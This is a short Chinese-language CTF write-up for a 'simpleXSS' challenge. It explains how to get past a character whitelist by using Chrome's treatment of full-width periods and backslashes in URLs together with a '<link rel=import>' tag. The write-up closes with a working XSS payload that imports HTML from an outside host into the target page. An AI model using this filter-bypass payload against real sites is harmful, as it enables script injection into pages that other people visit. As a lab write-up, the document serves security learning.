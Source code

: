 ## simpleXSS

XSS payload只允许使用大小写字母数字加上`<^*~\-|_=+`这些特殊符号，那么大概只有两种方案：
1. 利用onload=A=B 可以作一句给A(通常是location)赋值B的简单js赋值操作
2. 利用某些奇怪的HTML标签特性


比赛时感觉方向1行不通，于是我走了方向2的思路。但方向1还真让某`LC↯BC`队https://ctftime.org/writeup/5956 脑洞出来了个奇葩思路，只能佩服下RMB玩家...不对，应该是$12.95 Dollar玩家orz


我们（nao）想（dong）出来的payload有如下几个关键点：
1. Chrome会把域名中的`。`（全角句号）理解成`.`
2. `<link rel=import`这种标签会把html import到当前页面里....N年前玩polymer的时候常用的一种标签...这里不能用script标签，因为script标签没有正常闭合时引用的js貌似不会被执行
3. `\\`会被Chrome理解成`//`，`\`也会理解成`/` （其实这里有个小插曲，我Win10上的Chrome会把`\\`理解成windows资源管理器里敲的那种`\\`也就是samba协议(或`file://`伪协议)...所以这种payload XSS Windows貌似是不行...?）， 因此`\\example。com\xssHtml`会变成`//example.com/xssHtml`


综上，payload:
```html
<link rel=import href=\\example。com\xssHtml other= 
```
